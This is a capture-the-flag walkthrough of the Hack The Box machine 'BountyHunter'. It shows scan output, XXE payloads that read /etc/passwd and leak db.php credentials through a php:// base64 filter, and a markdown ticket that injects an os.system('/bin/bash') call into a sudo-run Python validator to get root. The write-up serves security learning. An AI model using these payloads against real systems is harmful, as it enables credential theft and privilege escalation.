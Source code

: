 # BountyHunter

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/d25dc96a-ce52-42c5-a472-d9d38377b5df)

## Difficulty = Easy
--- 
First of all we run our nmap scan

```sh
# Nmap 7.94 scan initiated Thu Aug 10 12:10:16 2023 as: nmap -p- -sCV --min-rate=1000 -oN nmap.txt -v 10.10.11.100
Increasing send delay for 10.10.11.100 from 40 to 80 due to 87 out of 289 dropped probes since last increase.
Warning: 10.10.11.100 giving up on port because retransmission cap hit (10).
Increasing send delay for 10.10.11.100 from 640 to 1000 due to 79 out of 262 dropped probes since last increase.
Nmap scan report for 10.10.11.100
Host is up (0.23s latency).
Not shown: 45138 closed tcp ports (conn-refused), 20395 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 10 12:16:07 2023 -- 1 IP address (1 host up) scanned in 351.09 seconds
```

- Navigating to port 80 - http, gives us a website

![](https://i.imgur.com/no9CW9K.png)

- viewing source doesn't seems to have anything much except from a few clues to test out vulnerabilities on the website with a security tool called `Burp Suite`

![](https://i.imgur.com/ZpmMhil.png)

- Also clicking `portal` on the web page :

![](https://i.imgur.com/DsP1Zwf.png)

- Takes us here :

![](https://i.imgur.com/aDAzybh.png)

- But after clicking `Go here` on the web page we get another web page, which looks like a **Bounty Report System** (Trust me, shit doesn't work)

![](https://i.imgur.com/6FHV1Eg.png)

- Fired up `Burp suite` and after numerous test, i noticed that this page is vulnerable to `XXE injection`

![](https://i.imgur.com/5vSbY1h.png)

*payload :*

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

- Just to be sure we are doing the right thing, Directory Bruteforce:

```sh
sec-fortress@Pwn-F0rk-3X3C:~/HTB/BountyHunter$ gobuster dir -u http://10.10.11.100/ -w ~/SecLists-master/Discovery/Web-Content/big.txt -b 401,400,400,501,402,404,403 -x bak,zip,php,PHP,txt,html -t 40 2>/dev/null                         
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.100/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /home/sec-fortress/SecLists-master/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404,403,401,400,501,402
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,PHP,txt,html,bak,zip
[+] Timeout:                 10s
===============================================================
2023/08/10 12:29:18 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
/db.php               (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 25169]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]
/portal.php           (Status: 200) [Size: 125]
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]

===============================================================
2023/08/10 12:52:54 Finished
===============================================================
```

- Yeah, definitely we can read files on the server, Now we need one more important file, maybe some file containing stored ssh creds
- After much Enumeration i decided to check each and every directory from our scan with gobuster, i found out db.php contains an empty page, why?? 🤔

![](https://i.imgur.com/7ifOLcR.png)

- After much reading, there is a way to print out content of php files through XXE injection using a php wrapper (*php://filter/convert.base64-encode/resource=file.php*), you can read more on it from [here](https://www.pwny.cc/web-attacks/xml-external-entity-xxe)
- Doing this to our target, gives us a base 64 encoded text

![](https://i.imgur.com/xziDR8I.png)

*payload :*
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
<data>&example;</data>
```

Looks like we got a password, let try it out on SSH with the user `development`

![](https://i.imgur.com/Hzjzo1J.png)

- It works :

![](https://i.imgur.com/bO2cZci.png)

### Privilege Escalation

> Since we have gotten shell as a normal user in the default home directory, let escalate privileges 😀

- First of all i ran `sudo -l` to confirm if there are executables/binaries we can run with sudo

![](https://i.imgur.com/pDz1CSj.png)

- There is, looks like a ticket validator, let see what we can do with it 

![](https://i.imgur.com/RbsFNYp.png)

Just a python file that validates ticket 🤔, let us read source-code

![](https://i.imgur.com/kYRmVgn.png)

- hmmmmmm, here is what i think :
	1. When it prompts us for a ticket file, we need to specify a file with a markdown format
	2. Once this is validated, it opens the file and check if the first line has > `# Skytrain Inc`
	3. Also checks if the second line has > `## Ticket to `
	4. It then looks for a line with numbers that add up to each other greater than 100

- i decided to change to the `/opt/skytrain_inc/invalid_tickets` folder and saw sample code

![](https://i.imgur.com/7ezkild.png)

- since we are not able to to write to this file, i created a sample and directed it to /tmp and named it `segun.py`, then gave it `777` permmissions

![](https://i.imgur.com/k7CLY9G.png)

- i edited the file and changed it from this :

```md
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**31+410+86**
##Issued: 2021/04/06
#End Ticket
```

To this:

```md
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**18 + __import__('os').system('/bin/bash')**
##Issued: 2021/04/06
#End Ticket
```

- ... and we got Root, Bankkaaaaiii 🎎

![](https://i.imgur.com/HZ8A2nZ.png)

